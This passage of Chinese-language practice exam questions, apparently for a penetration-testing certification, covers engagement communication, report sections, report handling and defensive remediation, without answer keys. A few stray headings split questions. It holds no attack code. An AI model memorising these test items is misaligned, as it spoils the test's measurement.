1. 发现的证明
2. 数据标准化
3. 缓解升级
4. 消除冲突

2. 你刚刚为客户完成了一次渗透测试，现在正在创建你发现的书面报告。你需要确保读者理解你在进行测试时遵循了 PCI DSS 标准。你应该在报告的哪个部分包含此信息？

1. 发现
2. 补救
3. 指标和衡量
4. 方法论

3. 渗透测试期间测试人员与客户之间沟通的一个目标是确保双方清楚地了解网络的当前安全状态。以下哪个术语最能描述这种共同理解？

1. 状况感知
2. 缓解升级
3. 消除冲突
4. 目标重新排序

4. 在渗透测试期间，客户组织的网络管理员发现针对公司 Web 服务器的分布式拒绝服务（DDoS）攻击正在进行。管理员致电渗透测试人员以验证攻击是渗透测试的一部分，而不是来自真正的攻击者。这过程叫什么？

1. 数据标准化
2. 状况感知
3. 消除冲突


4. 目标重新排序

### 5. 在渗透测试期间，客户组织开始收到客户投诉，称组织的 Web 服务器响应非常缓慢，有时甚至会崩溃。网络管理员发现正在进行一次针对公司 Web 服务器的分布式拒绝服务（DDoS）攻击。由于销售受损，管理员致电渗透测试人员，要求他们停止攻击。这种通信路径叫什么？
1. 态势感知
2. 降级
3. 冲突消除
4. 目标重新排序

### 6. 您的组织正在为客户进行黑盒渗透测试。您的渗透测试团队有五名成员。在测试期间，您通过电子邮件和短信持续与其他团队成员沟通，以确保每个人都知道其他人正在做什么。这个过程叫什么？
1. 态势感知
2. 指标和度量
3. 冲突消除
4. 数据标准化

### 7. 您的组织正在为客户进行黑盒渗透测试。您的渗透测试团队有五名成员。在测试期间，您通过电子邮件和短信持续与其他团队成员沟通，以协调各项活动的时机，包括侦察、枚举、利用等。这个过程叫什么？
1. 态势感知
2. 降级
3. 冲突消除
4. 数据标准化

### 8. 在渗透测试期间，客户组织开始收到远程工作人员的投诉，称组织的 VPN 已宕机。网络管理员发现正在进行一次针对网络边缘公司 VPN 服务器的局域网拒绝（LAND）攻击。远程工作人员无法工作，因此管理员致电渗透测试人员，要求他们降低攻击强度。这种通信路径叫什么？
1. 态势感知
2. 降级
3. 冲突消除
4. 目标重新排序

### 9. 在渗透测试期间，客户组织的网络管理员发现针对公司边界路由器的撕裂攻击正在进行。管理员致电渗透测试人员，确认该攻击是否属于渗透测试的一部分。这种通信路径叫什么？
1. 态势感知
2. 指标和度量
3. 冲突消除
4. 数据标准化

### 10. 您的组织正在为客户进行黑盒渗透测试。您的团队有三名测试人员。在流程开始时，您召开团队会议，规划测试将如何进行、某些活动何时发生，以及哪些团队成员负责执行特定任务。这个过程叫什么？
1. 冲突消除
2. 降级
3. 态势感知
4. 目标重新排序

### 11. 在渗透测试期间，有个人被抓到试图尾随进入客户组织的设施。非法入侵者声称自己是渗透测试人员并坚持要求被释放。在提起刑事指控之前，客户 IT 部门的一名成员致电渗透测试人员，以确定非法入侵者是否真的是渗透测试团队的成员。这种通信路径叫什么？
1. 目标重新排序
2. 冲突消除
3. 态势感知
4. 降级

### 12. 在渗透测试期间，一名测试人员使用预文本手段获得了对客户设施的物理访问，并能够触发组织所有电子锁定系统的失效打开事件。结果，设施内的所有门都被解锁。客户内部安全团队致电渗透测试人员，要求他们停止攻击并立即重新启用门锁。这个过程叫什么？
1. 态势感知
2. 目标重新排序
3. 冲突消除
4. 降级

### 13. 以下哪项最能描述渗透测试期间的 *受信任的代理*？
1. 一名通过在目标组织应聘工作而秘密渗透目标组织的测试人员
2. 目标组织内部与渗透测试人员有直接通信渠道的个人
3. 渗透测试团队中与目标组织 IT 人员有直接通信渠道的个人
4. 已由渗透测试人员通报测试情况的当地执法机构代表

### 14. 您正在为客户进行黑盒渗透测试。测试的侦察阶段已完成，您准备进入下一阶段。在此之前，您与客户沟通并告知他们测试正从一个阶段转移到另一个阶段。此场景中使用了哪种类型的通信触发器？
1. 阶段
2. 关键发现
3. 通信路径
4. 既往入侵指标

### 15. 您正在为客户进行灰盒渗透测试。在测试期间，您发现许多用户的 Windows 桌面系统未正确修补，仍容易受到几种常见勒索软件的攻击。您没有等到测试结束，而是立即与客户沟通，警告他们系统存在漏洞。此场景中使用了哪种类型的通信触发器？
1. 风险评级
2. 关键发现
3. 发现与补救
4. 既往入侵指标

### 16. 您正在为客户进行白盒渗透测试。在测试期间，您在一台客户的 Active Directory 域控制器上发现了一个隐藏的后门管理员账户。您检查了域控制器的日志，发现该后门账户每天都在被积极使用。您没有等到测试结束，而是立即与客户沟通，警告他们服务器已被入侵。此场景中使用了哪种类型的通信触发器？
1. 阶段
2. 关键发现
3. 通信路径
4. 既往入侵指标

### 17. 您正在为客户进行黑盒渗透测试。测试的枚举阶段已完成，您准备开始利用易受攻击的系统。在此之前，您与客户沟通并告知他们测试正在过渡。此场景中使用了哪种类型的通信触发器？
1. 风险评级
2. 关键发现
3. 发现与补救
4. 阶段

### 18. 您正在为客户进行白盒渗透测试。在测试期间，您注意到与分布式拒绝服务（DDoS）攻击一致的出站网络流量。您怀疑内部系统已被恶意软件感染，为攻击创建了放大网络。您没有等到测试结束，而是立即与客户沟通以发出警告。此场景中使用了哪种类型的通信触发器？
1. 阶段
2. 既往入侵指标
3. 发现与补救
4. 关键发现


# 渗透测试沟通与报告问题

### 19.
你正在为客户进行灰盒渗透测试。在测试期间，你发现帮助台技术人员正在通过互联网使用经过身份验证但未加密的 FTP 连接向位于远程分支办公室的计算机传输文件。因此，他们的凭据可能在公共网络上暴露。尽管这代表了一个诱人的利用目标，但你认识到这种做法所带来的即时风险。与其等到测试结束，你立即与客户沟通，警告他们特权凭据可能在互联网上暴露。在此场景中使用了哪种类型的沟通触发器？
1. 阶段
2. 关键发现
3. 沟通路径
4. 既往入侵的指标

### 20.
你正在为客户进行黑盒渗透测试。测试现已完成，你准备开始清理工作。在此之前，你与客户沟通并告知他们测试已完成，且清理活动即将进行。在此场景中使用了哪种类型的沟通触发器？
1. 风险评级
2. 关键发现
3. 阶段
4. 既往入侵的指标

### 21.
你正在为一家小型金融机构进行黑盒渗透测试。通过前置欺骗，你冒充复印机维修人员进入目标设施。随着你在建筑内行走，你注意到几乎所有员工都将（过于复杂的）密码写在便签上并贴在电脑显示器和键盘上。其中一些如此明显，以至于眼尖的客户都能看到。这代表了一个诱人的利用目标；然而，你认识到这种做法所带来的即时风险。与其等到测试结束，你立即与客户沟通，警告他们凭据清晰可见。在此场景中使用了哪种类型的沟通触发器？
1. 既往入侵的指标
2. 关键发现
3. 沟通路径
4. 阶段

### 22.
你正在为客户进行白盒渗透测试。在测试期间，你注意到所有终端用户工作站仅配置了默认的 Windows 反病毒扫描程序。你还注意到许多终端用户使用一个应用程序来完成日常工作，该应用程序是已知常用于创建僵尸网络的特洛伊木马。与其等到测试结束，你立即与客户沟通以发出警告。在此场景中使用了哪种类型的沟通触发器？
1. 既往入侵的指标
2. 关键发现
3. 沟通路径
4. 阶段

### 23.
你正在为客户进行 PCI DSS 渗透测试。在测试过程中，一种危险的勒索软件漏洞开始在全球各网络间传播。客户要求你停止 PCI DSS 渗透测试，转而测试其网络是否易受这种新型恶意软件攻击。在此场景中发生了什么，最佳描述的术语是什么？
1. 态势感知
2. 目标重新优先级排序
3. 既往入侵的指标
4. 发现的证明

### 24.
你正在为客户进行灰盒渗透测试。在测试过程中，你注意到其无线网络使用弱加密，并使用预共享密钥（00000001），该密钥易于暴力破解。此外，你注意到客户在整个设施内部署了全向接入点。你怀疑无线信号远在建筑物外仍在辐射。你联系客户并建议修改测试，以包含从黑盒角度测试 Wi-Fi 网络。在此场景中发生了什么，最佳描述的术语是什么？
1. 目标重新优先级排序
2. 发现的证明
3. 既往入侵的指标
4. 态势感知

### 25.
以下哪个术语指的是收集渗透测试中各种工具产生的数据并以一致的方式格式化数据，使其易于阅读的过程？
1. 发现的证明
2. 数据规范化
3. 补救
4. 报告处置

### 26.
你在渗透测试后生成一份发现的书面报告。在测试期间，你遵循了 NIST 800-115 标准。你应在报告的哪个部分包含此信息？
1. 执行摘要
2. 方法论
3. 发现与补救
4. 指标与衡量

### 27.
你在渗透测试后生成一份发现的书面报告。你应在报告的哪个部分为读者提供测试及其结果的高层次概述？
1. 执行摘要
2. 方法论
3. 发现与补救
4. 指标与衡量

### 28.
你在渗透测试后生成一份发现的书面报告。你应在哪个部分报告风险评级？
1. 执行摘要
2. 方法论
3. 发现与补救
4. 指标与衡量
5. 结论

### 29.
渗透测试发现的书面报告的哪个部分 intended to be read by less-technical audiences?
1. 执行摘要
2. 方法论
3. 发现与补救
4. 指标与衡量
5. 结论

### 30.
你在渗透测试后生成一份发现的书面报告。在测试期间，你遵循了 EC-Council 针对其认证道德黑客（CEH）认证的规范。你应在报告的哪个位置包含此信息？
1. 执行摘要
2. 方法论
3. 发现与补救
4. 指标与衡量
5. 结论

### 31.
你在渗透测试后生成一份发现的书面报告。在测试期间，你发现网络中许多较旧的 Windows 工作站未正确修补，易受 WannaCry 勒索软件攻击。你应在报告的哪个部分包含此信息？
1. 执行摘要
2. 方法论
3. 发现与补救
4. 指标与衡量
5. 结论

### 32.
你在渗透测试后生成一份发现的书面报告。在测试期间，你发现网络中许多较旧的 Windows 工作站未正确修补，易受 WannaCry 勒索软件攻击。为修复此问题，客户需要安装来自 Microsoft 的 MS17-010 – Critical 更新。你应在报告的哪个部分包含此建议？
1. 执行摘要
2. 方法论
3. 发现与补救
4. 指标与衡量
5. 结论

### 33.
你在渗透测试后生成一份发现的书面报告。你将测试中发现的每个漏洞与通用漏洞和暴露（CVE）数据库交叉引用，以分配低、中、高或严重的质量风险评级。这些风险评级应在报告的哪个部分包含？
1. 执行摘要
2. 方法论
3. 发现与补救
4. 指标与衡量
5. 结论

### 34.
你在渗透测试后生成一份发现的书面报告。基于测试结果，你已创建了一份你认为客户应重点关注的建议清单。你应在报告的哪个部分包含你的建议？
1. 执行摘要
2. 方法论
3. 发现与补救
4. 指标与衡量
5. 结论

### 35.
你在渗透测试后生成一份发现的书面报告。在决定包含哪些信息时，你应在报告的哪个部分考虑客户的风险承受能力？


## 报告章节
1. 执行摘要
2. 方法论
3. 发现与修复
4. 指标与衡量
5. 结论

### 36. 你正在生成一份渗透测试后的发现书面报告。鉴于你在测试中发现的漏洞数量之多，你认为客户应在未来三个月内进行一次后续渗透测试以验证问题是否已得到修复。你应在报告的哪个部分包含这一建议？
1. 执行摘要
2. 方法论
3. 发现与修复
4. 指标与衡量
5. 结论

### 37. 你刚刚为客户完成了一份渗透测试后的发现报告。测试完成后，你的组织需要保存该文档多长时间？
1. 六个月
2. 一年
3. 五年
4. 取决于客户合同

### 38. 你刚刚为客户完成了一份渗透测试后的发现报告。以下哪种方式是存储客户书面发现报告的适当方法？
1. 打印一份纸质副本并放在你办公桌上的文件文件夹中。
2. 保存到存放在你办公桌笔筒中的闪存驱动器。
3. 烧录到可重写光盘并存放在办公桌抽屉中。
4. 保存到文件服务器上的加密文件。

### 39. 你刚刚为客户完成了一份渗透测试后的发现报告。以下哪种方式是存储客户书面发现报告的适当方法？
1. 打印一份纸质副本并存放在已用螺栓固定在地面的上锁文件柜中。
2. 保存到你的 Google 云端硬盘账户。
3. 保存到你笔记本电脑上的文件。
4. 烧录到可重写光盘并存放在你办公桌上的光盘盒中。

### 40. 你刚刚为客户完成了一份渗透测试后的发现报告。以下哪种方式是存储客户书面发现报告的适当方法？
1. 将报告刻录到光盘并存放在用螺栓固定在你办公桌上的上锁保险箱中。
2. 将文件保存到加密闪存驱动器。
3. 将文件复制到你的手机。
4. 将报告保存到你工作站桌面的文件。

### 41. 你刚刚为客户完成了一份渗透测试后的发现报告。以下哪种方式是存储客户书面发现报告的适当方法？
1. 将报告刻录到光盘并放在你办公桌的悬挂文件文件夹中。
2. 将文件保存到加密闪存驱动器并存放在上锁柜中。
3. 将文件复制到你的手机。
4. 将报告保存到你组织的 `FTP` 服务器。

### 42. 你需要处理来自旧客户的几份渗透测试报告。文件存储在存放在上锁保险箱中的可移动硬盘上。以下哪种方式是最佳做法？
1. 从驱动器中删除文件。
2. 使用 `fdisk` 实用程序重新分区驱动器。
3. 在驱动器上使用磁盘擦除软件。
4. 重新格式化驱动器。

### 43. 你需要处理来自旧客户的几份渗透测试报告。报告的纸质副本存放在已用螺栓固定在地面的上锁文件柜中。以下哪种方式是最佳做法？
1. 把报告扔进垃圾桶。
2. 把报告放进回收箱。
3. 把报告倒着堆放在团队打印机旁用作“草稿纸”。
4. 用交叉切割碎纸机粉碎报告。

### 44. 你需要处理来自旧客户的几份渗透测试报告。文件存储在存放在上锁柜中的闪存驱动器上。以下哪种方式是最佳做法？
1. 用锤子砸碎驱动器。
2. 从驱动器中删除文件。
3. 使用 `Disk Management` 实用程序重新分区驱动器。
4. 使用 Windows 中的 `File Explorer` 重新格式化驱动器。

### 45. 你需要处理来自旧客户的几份渗透测试报告。文件存储在存放在上锁柜中的可重写光盘上。以下哪种方式是最佳做法？
1. 从光盘中删除文件。
2. 碎掉光盘。
3. 删除文件然后将新文件保存到光盘。
4. 重新格式化光盘。

### 46. 你刚刚为一家大量使用在家办公员工的客户完成了渗透测试。员工使用 VPN 连接。在测试期间，你能够利用社会工程学手段入侵一名员工的 VPN 连接并获得对内部网络的访问权限。作为缓解策略，你建议客户为所有 VPN 连接实施多因素身份验证。这是哪种类型的解决方案？
1. 技术性
2. 人为
3. 流程
4. 战术性

### 47. 你刚刚为客户完成了渗透测试。在测试期间，你能够利用社会工程学技术进入客户设施内的服务器机房。为解决此漏洞，你建议客户每六个月为所有员工要求进行安全意识培训。这是哪种类型的解决方案？
1. 技术性
2. 人为
3. 流程
4. 战术性

### 48. 你刚刚为客户完成了渗透测试。在测试期间，你能够利用与前员工相关的陈旧用户账户访问敏感文件服务器。为解决此漏洞，你建议客户在员工离开组织时删除用户账户。这是哪种类型的解决方案？
1. 技术性
2. 人为
3. 流程
4. 战略性

### 49. 你刚刚为客户完成了渗透测试。在测试期间，你发现系统管理员使用未加密的 `Telnet` 会话远程管理敏感服务器。你能够嗅探网络流量并从这些连接中捕获管理员凭据。为解决此漏洞，你建议客户要求所有 IT 员工通过网络安全认证考试。这是哪种类型的解决方案？
1. 技术性
2. 人为
3. 流程
4. 战略性

### 50. 你刚刚为客户完成了渗透测试。在测试期间，你能够使用 `John the Ripper` 对敏感 Windows 文件服务器上的管理员密码进行暴力破解。为解决此漏洞，你建议客户实施组策略设置，要求使用复杂密码，并在三次登录尝试错误后锁定系统。这是哪种类型的解决方案？
1. 技术性
2. 人为
3. 流程
4. 可扩展

### 51. 你刚刚为客户完成了渗透测试。该客户有超过 2,000 名员工，但只有两人是网络管理员。在测试期间，你能够以攻击的庞大数量迅速压倒他们。为解决此漏洞，你建议客户聘请具有网络安全资质和经验的额外网络管理员。这是哪种类型的解决方案？
1. 技术性
2. 人为
3. 流程
4. 可扩展

### 52. 你刚刚为客户完成了渗透测试。在测试期间，你发现组织的员工大量使用共享 Google Drive 账户进行协作。你能够利用社会工程学漏洞获得对共享账户的访问权限并访问敏感文件。为解决此漏洞，你建议客户禁止员工之间采用这种做法。这是哪种类型的解决方案？
1. 技术性
2. 人为
3. 流程
4. 可扩展


# 渗透测试问题

### 53. 你刚刚为客户完成了一次渗透测试。在测试期间，你通过尾随一群员工进入了客户的物理设施。为了应对这一漏洞，你建议客户在设施入口处实施人行门禁锁门。这是什么类型的解决方案？
1. 技术
2. 人
3. 流程
4. 可扩展

### 54. 你刚刚为客户完成了一次渗透测试。在测试期间，你坐在街对面停车场的车里，使用 `Aircrack-ng` 进入了客户的无线网络。为了应对这一漏洞，你建议客户实施定向无线网络天线，并调整接入点的功率水平以防止信号外泄。这是什么类型的解决方案？
1. 技术
2. 人
3. 流程
4. 可扩展

### 55. 你刚刚为客户完成了一次渗透测试。在测试期间，你能够利用社会工程学说服组织的应付账款职员向一个虚构的银行账户发送一笔大额 ACH 付款。为了应对这一漏洞，你建议客户实施职责分离，使得所有付款必须由两个人签字确认。这是什么类型的解决方案？
1. 技术
2. 人
3. 流程
4. 可扩展

### 56. 你刚刚为客户完成了一次渗透测试。在测试期间，你能够利用钓鱼攻击收集多名员工的身份验证凭据。为了应对这一漏洞，你建议客户为所有员工进行强制性的安全意识培训。这是什么类型的解决方案？
1. 技术
2. 人
3. 流程
4. 可扩展

### 57. 你刚刚为客户完成了一次渗透测试。在你的发现中，你注意到组织中所有 Windows 桌面系统都为本地管理员用户账户分配了相同的密码。你可以推荐什么来补救这个问题？
1. 加密密码。
2. 实施密码复杂度要求。
3. 实施入侵者锁定。
4. 随机化本地管理员凭据。

### 58. 你刚刚为客户完成了一次渗透测试。在你的发现中，你注意到组织中所有 Windows 桌面系统都为本地管理员用户账户分配了相同的密码。当你向客户报告此事时，他们表示他们知道此事，并且是有意这样做的以减少管理复杂性。你可以推荐什么解决方案来在不增加管理复杂性的情况下补救漏洞？
1. 随机化本地管理员凭据。
2. 实施 `LAPS`。
3. 使所有本地 Windows 用户成为本地管理员组的成员。
4. 使所有 Windows 域用户成为域管理员组的成员。

### 59. 你刚刚为客户完成了一次渗透测试。在你的发现中，你报告说你能够破坏多个用户的 Windows 账户，因为他们使用了 `password`、`aaa` 和 `1234` 等密码。以下哪个域组策略设置是你建议他们实施以防止弱密码复杂度？（选择两个。）
1. 使用可逆加密存储密码。
2. 密码必须满足复杂度要求。
3. 最小密码长度。
4. 证书路径验证设置。
5. 证书服务客户端 – 自动注册。

### 60. 以下哪个 Windows 组策略设置可用于防止用户反复重复使用相同的密码？
1. 强制密码历史
2. 使用可逆加密存储密码
3. 最小密码长度
4. 密码必须满足复杂度要求

### 61. 以下哪个 Windows 组策略设置决定用户可以在被要求更改为新密码之前保留同一密码多长时间？
1. 强制密码历史
2. 最小密码长度
3. 最小密码年龄
4. 最大密码年龄

### 62. 以下哪个 Windows 组策略设置决定用户必须保留同一密码多长时间后才允许更改为新密码？
1. 强制密码历史
2. 最小密码长度
3. 最小密码年龄
4. 最大密码年龄

### 63. 你刚刚为客户完成了一次渗透测试。在你的发现中，你报告说用户被允许无限期地保留相同的密码，这增加了他们在某一点被攻破的可能性。鉴于客户使用 Linux 桌面和服务器，以下哪个 Linux 命令是你建议他们用来修复此问题？
1. `chage`
2. `chmod`
3. `chgroup`
4. `chown`

### 64. 你刚刚为客户完成了一次渗透测试。在你的发现中，你报告说针对 Windows 域用户账户的暴力密码攻击是成功的，因为没有任何东西阻止密码破解软件对给定用户尝试一个又一个密码。以下哪个 Windows 域组策略设置是你建议客户实施以补救此问题？
1. 强制密码历史
2. 密码必须满足复杂度要求
3. 使用可逆加密存储密码
4. 账户锁定阈值

### 65. 哪个 Windows 组策略设置决定如果输入错误密码次数过多，用户账户将被锁定多长时间？
1. 最大密码年龄
2. 账户锁定持续时间
3. 账户锁定阈值
4. 最小密码年龄

### 66. 哪个 Windows 组策略设置决定在失败的登录尝试计数器重置为 0 之前，必须经过多长时间的失败登录尝试？
1. 账户锁定持续时间
2. 账户锁定阈值
3. 重置账户锁定计数器后
4. 使用可逆加密存储密码

### 67. 你刚刚为客户完成了一次渗透测试，该客户使用大量临时工和承包商。在你的发现中，你报告说临时和合同用户账户在工作完成后经常未被停用或删除。鉴于客户使用 Linux 桌面和服务器，以下哪个 Linux 命令是你建议他们用来在特定时间后自动锁定用户账户？
1. `chage`
2. `chmod`
3. `chgroup`
4. `chown`

### 68. 以下哪个 Windows 组策略设置永远不应启用？
1. 使用可逆加密存储密码
2. 密码必须满足复杂度要求
3. 最小密码长度
4. 证书路径验证设置
5. 证书服务客户端 – 自动注册

### 69. 在渗透测试期间，你发现你的客户使用了一个内部开发的 Web 应用程序，该应用程序以明文形式将用户密码存储在 `MySQL` 数据库中。你应该推荐什么？
1. 购买一个执行类似任务的商业应用程序。
2. 重写应用程序以在将密码保存到数据库之前对其进行加密。
3. 切换到 `PostgreSQL` 数据库。
4. 切换到云服务提供商的托管解决方案。

### 70. 你刚刚为客户完成了一次渗透测试。在你的发现中，你报告说，虽然用户接受培训每 45 天更改一次密码，但很少有人实际这样做，因为没有机制来执行此策略。鉴于客户使用 Linux 桌面和服务器，以下哪个 Linux 命令是你建议他们用来在用户 45 天后未更改密码时自动锁定用户账户？


# 安全评估问题

1. `chage`
2. `chmod`
3. `chgroup`
4. `chown`

### 71. 以下哪些工具可用于从该密码的哈希值中恢复原始明文密码？
1. `proxychains`
2. `John the Ripper`
3. 一个彩虹表
4. `TheHarvester`

### 72. 以下哪一项通常用于通过在哈希操作中添加随机位来防止对哈希密码的预计算攻击？
1. 加盐
2. 反转哈希
3. 使用一次性密码
4. 实施多因素认证

### 73. 以下哪一项通常用于通过多次运行待哈希值通过哈希函数来防止对哈希密码的预计算攻击？
1. 加盐
2. 密钥拉伸
3. 对称加密
4. 非对称加密

### 74. 你刚刚为客户完成了一次渗透测试。在你的发现中，你报告说用户需要提供用户名和密码进行身份验证。你建议组织实施多因素认证。以下哪一项他们可以在身份验证时要求用户提供以实现此目的？
1. PIN。
2. 密码短语。
3. 指纹扫描。
4. 以上均不是。通过要求用户名和密码，多因素认证已经实施。

### 75. 就多因素认证而言，以下哪一项是你所知道的示例？
1. PIN
2. 一次性密码 (OTP)
3. 生物特征扫描
4. RSA 令牌

### 76. 就多因素认证而言，以下哪一项是你所是的示例？
1. 密码
2. 挑战-响应问题
3. 视网膜扫描
4. 硬线连接到组织的内部局域网

### 77. 就多因素认证而言，以下哪一项是你所处的示例？
1. 安全令牌生成器
2. 密码短语
3. 硬线连接到组织的内部局域网
4. 语音印记

### 78. 就多因素认证而言，以下哪一项是你所处的示例？
1. RFID 接近读卡器
2. USB 令牌生成器
3. 断开连接的令牌生成器
4. 密码

### 79. 以下哪一项是多因素认证的示例？
1. 用户名 + PIN
2. RFID 接近读卡器 + 硬件连接到局域网
3. 生物特征扫描 + PIN
4. 密码 + 挑战/响应问题

### 80. 以下哪一项是多因素认证的示例？
1. 用户名 + 密码
2. 密码 + 安全令牌生成器
3. USB 令牌生成器 + 断开连接的令牌生成器
4. 密码 + PIN

### 81. 以下哪一项是双因素认证 (2FA) 的示例？
1. 用户名 + 密码
2. 用户名 + PIN
3. 用户名 + PIN + 面部识别扫描
4. PIN + 指纹扫描 + 安全令牌

### 82. 以下哪一项是三因素认证 (3FA) 的示例？
1. 用户名 + 密码 + 安全令牌
2. 用户名 + PIN + 指纹扫描 + 一次性密码 (OTP)
3. 用户名 + PIN + 面部识别扫描
4. 密码 + PIN + 安全令牌

### 83. 你刚刚为客户完成了一次渗透测试。在你的发现中，你报告说一个由内部开发且组织用于管理客户订单的 Web 应用程序容易受到 SQL 注入攻击。你应该建议客户做什么来补救这个问题？
1. 重写代码以清理用户输入。
2. 在网络上传输之前对所有数据进行哈希处理。
3. 在数据库中对所有静态数据进行加密。
4. 用执行类似功能的商业应用程序替换该应用程序。

### 84. 你刚刚为客户完成了一次渗透测试。在你的发现中，你报告说一个由内部开发且组织用于管理客户订单的 Web 应用程序容易受到 SQL 注入攻击。你应该建议客户做什么来补救这个问题？
1. 转义数据。
2. 为网络通信实施 SSL。
3. 在用户身份验证时要求 2FA。
4. 对哈希值加盐。

### 85. 哪种针对 SQL 注入攻击的防御涉及使用带有绑定变量的预准备 SQL 语句？
1. 清理用户输入
2. 转义数据
3. 参数化查询
4. 密钥拉伸

### 86. 你刚刚为客户完成了一次渗透测试。在你的发现中，你报告说数据中心中的 Linux Web 服务器正在运行 Apache Web 服务器、MySQL 数据库、DNS、CUPS、DHCP、IMAP 和 POP3 服务。你应该建议客户做什么来补救这种情况？
1. 从服务器上卸载所有不必要的服务。
2. 关闭服务器基于主机的防火墙中与不必要服务关联的端口。
3. 卸载 DNS 和 DHCP 服务。
4. 卸载与电子邮件相关的服务。

### 87. 一台 Windows 服务器作为组织的网络的 Active Directory 域控制器运行。以下哪些服务不是履行此角色所必需的？（选择两项。）
1. 组策略管理
2. Hyper-V
3. 角色管理工具
4. Active Directory 联合服务

### 88. 以下哪些是用于加固基于 Windows 的计算机系统用户账户的常见方法？（选择两项。）
1. 使用组策略配置账户锁定。
2. 启用匿名 SID/名称转换。
3. 启用内置来宾用户账户。
4. 启用 SAM 账户和共享的匿名枚举。
5. 删除或禁用所有未使用的用户账户。

### 89. 以下哪些是用于加固基于 Windows 的计算机系统用户账户的常见方法？（选择两项。）
1. 要求用户使用在线 Microsoft 用户账户进行身份验证。
2. 使用组策略强制执行密码复杂度要求。
3. 允许“everyone”权限应用于匿名用户。
4. 使用组策略强制执行密码老化要求。
5. 允许标准用户安装更新

### 90. 以下哪种方法通常用于加固基于 Windows 的计算机系统上的网络通信？
1. 启用 TCP/IP 上的 NetBIOS。
2. 允许匿名访问共享文件夹。
3. 存储 LAN Manager 哈希值。
4. 设置 LAN Manager 身份验证级别以允许 LM 和 NTLM。
5. 将网络访问限制为仅经过身份验证的用户。

### 91. 以下哪种方法通常用于加固基于 Windows 的计算机系统上的网络通信？
1. 关闭 Windows 防火墙中的所有端口，然后仅打开已安装服务所需的端口。
2. 在 Windows 防火墙中打开所有端口，然后逐一关闭它们，除已安装服务所需的端口外。
3. 启用 LMShosts 查找。
4. 仅在公共网络配置文件中启用 Windows 防火墙。

### 92. 以下哪些方法通常用于加固基于 Windows 的计算机系统？（选择两项。）
1. 安装额外的系统 RAM 然后禁用 Windows 分页文件。
2. 授予管理员用户“作为操作系统的一部分运行”的权限。
3. 禁用不需要的服务。
4. 允许匿名访问注册表。
5. 禁用补丁可用性的自动通知。

### 93. 以下哪种方法通常用于加固基于 Windows 的计算机系统？
1. 禁用交互式登录的 Ctrl+Alt+Del。
2. 安装所有可用的 Windows 组件。
3. 如果已启用，则禁用 BitLocker。
4. 禁用自动运行。

### 94. 以下哪种方法通常用于加固基于 Linux 的服务器系统？
1. 启用并配置 `iptables`。


# Linux 渗透测试问题

### 2. 在 `inittab` 中启用 Ctrl+Alt+Del。

### 3. 授予所有用户对 `/boot` 目录的读写访问权限。

### 4. 配置 IP 协议以响应 `ICMP` 请求。

### 95. 以下哪种方法常用于加固基于 Linux 的服务器系统？
1. 启用 `Telnet` 服务。
2. 启用安全外壳 (`SSH`) 服务。
3. 配置 IP 协议以响应网络广播。
4. 启用具有空密码的用户账户。

### 96. 你刚刚为客户完成了一次渗透测试。在你的发现中，你报告说 Linux 数据库服务器存在大量不必要的开放服务，增加了其攻击面。在最终报告中，你建议客户分析系统并删除对其角色非必需的任何应用程序或服务。你应该建议他们使用哪种工具来检查服务器上的监听网络端口？
1. `netstat`
2. `yum`
3. `chage`
4. `iptables`

### 97. 你刚刚为客户完成了一次渗透测试。在你的发现中，你报告说你在 Linux 文件服务器上发现了多个未分配密码的用户账户。在最终报告中，你建议客户分析系统并为所有用户账户分配密码。他们应查看服务器上的哪个文件来实现这一点？
1. `/etc/passwd`
2. `/etc/shadow`
3. `/etc/group`
4. `/etc/gshadow`

### 98. 你刚刚为客户完成了一次渗透测试，该客户使用大量临时工和承包商。在你的发现中，你报告说临时和合同用户账户在工作完成后经常未被停用或删除，因为他们几个月后经常回来从事新项目。鉴于客户使用 Linux 桌面和服务器，你应该建议他们使用以下哪个 Linux 命令手动锁定临时或合同用户账户，直到员工返回从事新项目？
1. `lockusr`
2. `chmod`
3. `chage`
4. `passwd`

### 99. 你刚刚为客户完成了一次渗透测试。在你的发现中，你报告说 Linux 数据库服务器显示过去曾被入侵的证据。攻击者试图通过手动修改本地日志文件来掩盖其踪迹，但遗漏了一条关键记录，从而揭示了入侵。你应该建议客户怎么做？
1. 将日志文件设为只读。
2. 仅授予 root 用户对日志文件的读写访问权限。
3. 重新配置系统将日志条目发送到专用日志服务器。
4. 将日志文件设为隐藏文件。

### 100. 你刚刚为客户完成了一次渗透测试，该客户拥有许多远程站点。远程站点的员工通常使用 `FTP` 客户端在站点与总部服务器之间复制文件。在测试期间，你能够嗅探这些 FTP 会话并捕获敏感信息。在最终报告中，你应该建议客户采取什么措施来补救此问题？
1. 使用 `FTPS` 进行文件传输。
2. 禁止站点间的文件传输。
3. 使用 `rcp` 命令进行文件传输。
4. 使用闪存驱动器和快递服务在站点之间进行文件传输。

### 101. 你刚刚为客户完成了一次渗透测试。在测试期间，你发现一名 Linux 系统管理员使用 `Telnet` 远程访问 Linux 服务器。在最终报告中，你应该建议客户采取什么措施来补救此问题？
1. 禁止远程服务器访问。
2. 使用 `SFTP` 进行远程服务器访问。
3. 使用 `rsh` 进行远程服务器访问。
4. 使用 `SSH` 进行远程服务器访问。

### 102. 你刚刚为客户完成了一次渗透测试。在测试期间，你发现一名 Linux 系统管理员使用 `rcp` 在 Linux 服务器之间复制文件。在最终报告中，你应该建议客户采取什么措施来补救此问题？
1. 使用 `scp` 命令进行文件传输。
2. 禁止服务器之间文件传输。
3. 使用 `rsh` 命令进行文件传输。
4. 使用 `ftp` 命令进行文件传输。

### 103. 你刚刚为客户完成了一次灰盒渗透测试。在测试期间，你能够使用默认的管理员用户名和密码访问组织的无线网络控制器设备。在最终报告中，你应该建议客户采取什么措施来补救此问题？
1. 通过使用 `SSH` 进行远程连接来消除明文密码的传输。
2. 更改控制器上的默认管理员用户名和密码。
3. 在所有接入点上使用定向天线。
4. 在无线网络上实施 MAC 地址过滤。

### 104. 你刚刚为客户完成了一次黑盒渗透测试。组织的无线网络使用预共享密钥。在测试期间，你使用运行 `Aircrack-ng` 的笔记本电脑从停车场访问了组织的无线网络。在最终报告中，你应该建议客户采取什么措施来补救此问题？（选择两项。）
1. 实施 MAC 地址过滤。
2. 实施 `802.1x` 身份验证。
3. 升级到支持现代加密方法的较新 Wi-Fi 设备。
4. 更改接入点上的默认管理员用户名和密码。
5. 重新配置 Wi-Fi 设备以使用 `WPA` 加密。

### 105. 你刚刚为客户完成了一次黑盒渗透测试。在测试期间，你使用运行 `Aircrack-ng` 的笔记本电脑从停车场访问了组织的无线网络。在最终报告中，你应该建议客户采取什么措施来补救此问题？（选择两项。）
